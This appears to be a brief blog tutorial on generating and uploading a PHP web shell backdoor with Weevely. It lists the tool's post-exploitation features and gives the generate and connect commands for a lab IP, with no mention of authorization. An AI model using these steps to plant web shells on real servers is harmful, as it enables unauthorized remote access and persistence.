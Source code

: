 ```yaml
---
layout: post
title: PHP backdoor with Weevely
---
```


In this tutorial we will create a backdoor by uploading PHP file on the server and gaining a backdoor.

Weevely comes pre-installed on kali-linux.

**Some other features of weevely include:**

•	Shell access to the target


•	SQL console pivoting on the target


•	HTTP proxy pivoting on the target


•	Upload and download files


•	Spawn reverse and direct TCP shells


•	Audit remote target security


•	Run Meterpreter payloads


•	Port scan pivoting on target


•	Mount the remote filesystem


•	Bruteforce SQL accounts pivoting on the target.



Weevely is a web shell designed for post-exploitation purposes that can be extended over the network at runtime.

Upload weevely PHP agent to a target web server to get remote shell access to it. It has more than 30 modules to assist administrative tasks, maintain access, provide situational awareness, elevate privileges, and spread into the target network.


How to Generate a PHP Backdoor using Weevely?
 
weevely generate <password> <path>

![](/images/2020-1-28-weevely/1.png)

Upload the 405.php to the sever. 


![](/images/2020-1-28-weevely/2.png)


To establish the session: 

weevely http://192.168.1.107/405.php 0xcf

![](/images/2020-1-28-weevely/3.png)


More on installation : [https://github.com/epinna/weevely3/wiki/Install](https://github.com/epinna/weevely3/wiki/Install)

Credit: MazenElzanaty @pentesttools
